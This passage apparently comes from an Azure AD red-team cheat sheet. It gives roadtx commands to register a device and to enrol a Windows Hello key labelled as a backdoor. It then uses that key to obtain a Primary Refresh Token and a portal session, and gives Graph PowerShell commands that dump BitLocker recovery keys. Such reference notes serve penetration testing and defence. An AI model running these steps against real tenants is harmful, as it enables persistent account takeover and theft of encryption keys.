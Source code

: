 
### Device State

```ps1
PS> dsregcmd.exe /status
+----------------------------------------------------------------------+
| Device State |
+----------------------------------------------------------------------+
 AzureAdJoined : YES
 EnterpriseJoined : NO
 DomainJoined : NO
 Device Name : jumpvm
```

* **Azure AD Joined** : https://pbs.twimg.com/media/EQZv62NWAAEQ8wE?format=jpg&name=large
* **Workplace Joined** : https://pbs.twimg.com/media/EQZv7UHXsAArdhn?format=jpg&name=large
* **Hybrid Joined** : https://pbs.twimg.com/media/EQZv77jXkAAC4LK?format=jpg&name=large
* **Workplace joined on AADJ or Hybrid** : https://pbs.twimg.com/media/EQZv8qBX0AAMWuR?format=jpg&name=large


### Join Devices

* [Enroll Windows 10/11 devices in Intune](https://learn.microsoft.com/en-us/mem/intune/user-help/enroll-windows-10-device)


### Register Devices

```ps1
roadtx device -a register -n swkdeviceup
```


### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```


### Bitlocker Keys

```ps1
Install-Module Microsoft.Graph -Scope CurrentUser
Import-Module Microsoft.Graph.Identity.SignIns
Connect-MgGraph -Scopes BitLockerKey.Read.All
Get-MgInformationProtectionBitlockerRecoveryKey -All
Get-MgInformationProtectionBitlockerRecoveryKey -BitlockerRecoveryKeyId $bitlockerRecoveryKeyId
```


## Service Principals
